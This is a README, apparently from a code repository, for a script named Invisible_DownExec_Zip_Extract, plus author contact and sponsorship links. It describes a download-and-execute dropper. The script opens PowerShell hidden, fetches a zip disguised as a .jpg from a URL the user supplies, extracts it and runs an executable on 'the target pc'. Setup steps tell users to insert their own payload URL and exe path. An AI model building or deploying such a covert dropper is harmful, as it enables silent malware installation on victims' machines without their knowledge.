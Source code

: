 
# Invisible_DownExec_Zip_Extract

This script invisibly downloads an .zip file from the URL, extracts and runs it on the target pc.



## How to use?

This script is not plug and play. You will have to do the following changes:

- change url for the .zip file "-Uri 'https://yoursite.com/zipfile.jpg'"
- change name of the .zip file "-OutFile 'zipfile.zip'"
- change path of the .exe in the extracted folder "-FilePath '.\zipfile\your_executable.exe'"


## Features

- open powershell invisble
- download .zip from url
- extract .zip file
- run exe from .zip file





## Feedback

If you have any feedback, please reach out to me via Telegram https://t.me/voiscko






## Support

For support, contact me via  Telegram https://t.me/voiscko


## Meta


- If you want to sponsor me on Patreon, the link is on my profile.


